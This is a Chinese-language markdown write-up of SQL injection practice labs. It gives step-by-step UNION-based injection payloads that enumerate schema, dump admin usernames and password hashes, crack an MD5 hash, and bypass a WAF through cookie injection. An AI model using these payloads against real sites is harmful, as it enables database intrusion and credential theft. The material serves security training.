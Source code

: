 ### SQL注入

#### 墨者学院靶场[SQL手工注入漏洞测试(MySQL数据库)](https://www.mozhe.cn/bug/detail/elRHc1BCd2VIckQxbjduMG9BVCtkZz09bW96aGUmozhe)
1. 第一步: 查看是否存在注入点 
    `and 1=1` 可以打开
    `id=1 and 1=2` 不能打开
    `id=1 西瓜` 不能打开
1. 第二步: 查看列数量
    `id=1 order by X` X从1不断往上递加直到网页不能正常显示,此题目最大值为4,说明为4列
1. 第三步: 报错查看列名情况
    `id=-1 union select 1,2,3,4` 显示为2,3
1. 第四步: 从2,3查询, 查看版本, 数据库等信息
    `id=-1 union select 1,version(),database(),4` 此题结果, 版本:`version() = 5.7.22-0ubuntu0.16.04.1` 数据库: `database()=mozhe_Discuz_StormGroup`
    查询表名:
    `id=-1 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='mozhe_Discuz_StormGroup'` 表名结果:`StormGroup_member,notice` 对此题来说,是`StormGroup_member`
    查询列名:
    `id=-1 union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='StormGroup_member'` 列名结果: `id,name,password,status`
1. 第五步: 查询数据
    `id=-1 union select 1,name,password,4 from StormGroup_member limit 1,1`
    结果`name=mozhe` | `password=861de5d5f0a8128d0fab489996355994`
6.第六步:MD5解密
    name:mozhe 
    password:874769


#### 题目总结

1. 判定注入点
1. 查看列数量
1. 通过报错注入配合页面查看数据回显
1. 通过union联合查询拿到数据库版本,数据库名,表名,列名等信息
1. 查询出数据


#### 封神台SQL注入靶场1

基本步骤同墨者学院靶场 

**不同之处:**
- 使用`union`联合查询前, 不是用`id=-1`去过滤掉结果集, 后台应该有对id不存在时做了处理, 此时, 使用`id=1 and id=2`去`union`新的结果集, 过滤掉前面的结果

例:`id=1 and id=2 union select 1,group_concat(table_name) from information_schema.tables where table_schema='maoshe'`

![数据库名称查询结果](images/2021-08-07-14-32-44.png)

#### 封神台SQL注入靶场2

此靶场存在基础的WAF(WEB应用防火墙)

**特点:**
- 使用`id=-1`和`id=1 and id=2`都报错, 这里无法触发注入
- 直接`order by 10`查询出有10个字段
- 猜测存在表名字为`admin`的表,当我们使用`union select 1,2,3,4,5,6,7,8,9,10 from admin`时, 出现报错, 说明存在一定的WAF
![报错内容](images/2021-08-08-01-20-58.png)
- **关键:** 尝试将注入语句放到cookie中, 再发送给服务器, 因为网页防护一般只拦截Get、post传参. 这里用到了[ModHeader插件(新edge版本)](https://microsoftedge.microsoft.com/addons/detail/modheader/opgbiafapkbbnbnjcdomjaghbckfkglc?hl=zh-CN)(不喜欢用edge的也可以去找chrome版本)
- 点击加号, 键入`Cookie`, `id=171`, 再将浏览器url中的参数删除
![ModHeader](images/2021-08-08-01-31-17.png)
![删除参数](images/2021-08-08-01-37-07.png)
- 发现能正常执行, 说明存在cookie注入
![执行结果](images/2021-08-08-01-39-24.png)
- 这次在cookie中传入我们的注入语句, `id=171+union+select+1,2,3,4,5,6,7,8,9,10+from+admin`, 使用+代替空格, 否则报错, 原因**可能是后台进行了一次解码, 解码后`+`会变成空格**
![注入结果](images/2021-08-08-01-41-51.png)
- 尝试查询`admin`表中最常见的字段`username`, `password`, `id=171+union+select+1,username,password,4,5,6,7,8,9,10+from+admin`, 拿到账户密码 